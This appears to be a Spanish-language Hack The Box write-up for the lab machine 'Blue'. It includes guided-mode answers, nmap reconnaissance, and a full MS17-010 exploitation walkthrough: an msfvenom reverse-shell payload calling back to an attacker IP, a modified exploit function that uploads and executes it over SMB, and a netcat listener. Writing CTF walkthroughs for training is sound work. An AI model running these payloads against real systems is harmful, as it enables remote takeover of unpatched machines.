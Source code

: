 ```yaml
---
title: Writeup blue - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - blue
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina blue en Hack The Box.
keywords:
  - writeup blue
  - hack the box blue
  - resolución máquina blue
  - blue hack the box
  - htb blue
---
```

--------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/Facil/Windows/Blue)
- 📺 **Resolución en vivo (completa)**: [Parte1](https://www.youtube.com/watch?v=_rycwPBeG7Q)|[Parte2](https://www.youtube.com/watch?v=6rzA9KYjFmI)|[Parte3](https://www.youtube.com/watch?v=8g8bSn6Bi7E)
- 🧠 **Explicación resumida**: [Link](https://www.youtube.com/watch?v=5GvWlEA5vsY)

---

#easy #windows #nmap #ping #python27 #nmapscripts #cd #gitclone #nc-nlvp443 #reverseshell #msfvenom #nvim #type

---------
# Guided Mode

1)¿Cuántos puertos TCP abiertos escucha Blue? No incluya ningún puerto de 5 dígitos.
	3
	
2)¿Cuál es el nombre de host de Blue?
	haris-pc

3)¿Qué sistema operativo se está ejecutando en la máquina de destino? Dé una respuesta de dos palabras con un nombre y una versión de alto nivel.
	windows 7

4)¿Cuántas acciones SMB están disponibles en Blue?
	5

5)Qué número de boletín de seguridad de Microsoft de 2017 describe una vulnerabilidad de ejecución remota de código en SMB?
	MS17-010

6)En mayo de 2017 se soltó en Internet un gusano que se propagaba principalmente a través de MS17-010. Cuál es el famoso nombre de ese malware?
	WannaCry

7)¿Con qué usuario se ejecuta el exploit MS17-010? Incluya el nombre completo, incluyendo cualquier cosa antes de un .
	nt authority\system


-------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.10.40
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.40 -oG allPorts
extractPorts allPorts
nmap -sCV -p135,139,445,49152,49153,49154,49155,49156,49157 10.10.10.40 -oN target
```

![[Blue1.png]]
![[Blue2.png]]
![[Blue3.png]]
![[Blue4.png]]
*TTL:* Maquina windows
*Puertos:*
`445`[[smb]]
*Otra informacion relevante:*
Para smb nos podemos conectar con el usuario guest, con permisos de user
Usuario:Harris
Computadora windows 7

--------
# Escaneo de [[NMAP Scripts]] a [[smb]]

Como vemos que esta corriendo un [[smb]] vamos a ejecutar los [[NMAP Scripts]] que analizan vulnerabilidades sobre [[smb]]
```
nmap --script "smb-vuln*" -p445 10.10.10.40 -oN smbScan
```

![[Blue9.png]]
Como podemos ver, es vulnerable al [[CVE-2017-0143]]

-----
# Explotando [[CVE-2017-0143]]

Con [[git clone]] vamos a descargar el repositorio `git clone https://github.com/worawit/MS17-010`
Usando [[cd]] con el comando `cd MS17-010` entramos a carpeta del repositorio, listamos el contenido con [[ls]]
Y de todos estos archivos, vamos a usar solamente el *checker.py* y *zzz_exploit.py*

![[Blue10.png]]
Usando [[nvim]] abrimos el archivo *checker.py* usando el comando `nvim checker.py`

Vamos a poner de usuario *guest* que es lo que vimos vulnerable en uno de los escaneos de NMAP
![[Blue5.png]]

Y ahora con `python2-7 checker.py 10.10.10.40` Vemos que podemos usar los pipes 
![[Blue6.png]]
El pipe que nos interesa es el *lsarpc* por que es el mas completo, ya que nos deja ver usuarios, grupos, permisos ,etc


### Ya tenemos el canal de comunicacion elegido, que seria el pipe. Ahora vamos a hacer el archivo malioso que vamos a inyectar con [[msfvenom]]

```
msfvenom -p windows/shell_reverse_tcp lhost=10.10.16.5 lport=443 -f exe -o exploit.exe --platform windows
```

![[Blue11.png]]
Tenemos creado el archivo exploit.exe para inyectar y que nos envie la [[Reverse shell]]

### Tenemos que modificar el archivo *zzz_exploit.py*
Lo abrimos nuevamente con [[nvim]] usando el comando `nvim zzz_exploit.py`
![[Blue13.png]]
En username van a poner *guest* como hicimos anteriormente.

Y ahora van a ir a la siguiente linea, pueden buscar la funcion *smb_pwn* para encontrarla

Lo vamos a poner de la siguiente manera, como esta en la foto, tengan encuenta que les puede saltar un error por los espacios y tabulacion, asi que recomiendo que sigan mi formato. Y solamente cambien la ruta donde tienen el archivo y en todo caso el nombre del mismo
![[Blue14.png]]

```python
def smb_pwn(conn, arch):
    smbConn = conn.get_smbconnection()

    #print('creating file c:\\pwned.txt on the target')
    #tid2 = smbConn.connectTree('C$')
    #fid2 = smbConn.createFile(tid2, '/pwned.txt')
    #smbConn.closeFile(tid2, fid2)
    #smbConn.disconnectTree(tid2)
    smb_send_file(smbConn, '/home/bunzo/Desktop/exploit.exe', 'C', '/exploit.exe')
    service_exec(conn, r'cmd /c c:\\exploit.exe')
    #smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
    #service_exec(conn, r'cmd /c copy c:\pwned.txt c:\pwned_exec.txt')
    # Note: there are many methods to get shell over SMB admin session
    # a simple method to get shell (but easily to be detected by AV) is
    # executing binary generated by "msfvenom -f exe-service ..."
```


 Ahora solo nos falta ponernos en escucha con [[nc -nlvp 443]] y ejecutar el exploit con `python2.7 zzz_exploit.py 10.10.10.40 lsarpc`

![[Blue15.png]]

![[Blue12.png]]

Ya estamos dentro de la maquina, ahora solo falta catear las flags con [[type]]

![[Blue7.png]]
![[Blue8.png]]

----------
# Notas

#### Puede ser que tengas error con impacket y python 2.7 al ejecutarlo. Yo lo que hice fue esto para poder ejecutar los scripts. Que es basicamente descargar y instalar el python con nuevas configuraciones
```shell
cd /usr/src
sudo wget https://www.python.org/ftp/python/2.7.18/Python-2.7.18.tgz
sudo tar xzf Python-2.7.18.tgz
cd Python-2.7.18
sudo ./configure --enable-optimizations
sudo make altinstall

pip2 install impacket==0.9.24
```

------------
# Creditos
Writeup Oficial HackTheBox
Y muchos otros Writeups y videos que no tengo los links, por que me aparecia error por todos lados